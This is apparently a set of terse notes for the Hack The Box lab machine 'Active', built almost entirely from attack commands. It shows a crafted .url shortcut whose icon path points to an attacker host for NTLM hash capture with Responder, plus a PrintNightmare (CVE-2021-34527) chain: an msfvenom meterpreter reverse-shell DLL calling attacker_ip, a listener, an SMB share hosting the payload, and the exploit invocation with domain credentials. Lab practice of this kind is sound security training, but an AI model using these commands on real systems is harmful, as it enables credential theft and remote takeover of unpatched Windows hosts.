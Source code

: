 HTB: Active

### url file

[Responder Github link](https://github.com/SpiderLabs/Responder)

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

Save As -> All Files -> @something.url

responder
```
responder.py -I tun0 -rdw
```

### printnightmare (CVE-2021-34527)

[cube0x0 RCE Github link](https://github.com/cube0x0/CVE-2021-1675)

[calebstewart LPE Github link](https://github.com/calebstewart/CVE-2021-1675)

checking if vuln
```
rpcdump.py @ip | egrep 'MS-RPRN|MS-PAR'
```

creating payload msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=5555 -f dll > shell.dll
```

opening a meterpreter listener
```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 5555
run
```

opening a samba share
```
smbserver.py share `pwd` -smb2support
```

running the exploit
```
./CVE-2021-34527.py domain.name/username:password@ip '\\attacker_ip\share\shell.dll`
```

### mimikatz

[mimikatz Github link](https://github.com/gentilkiwi/mimikatz)

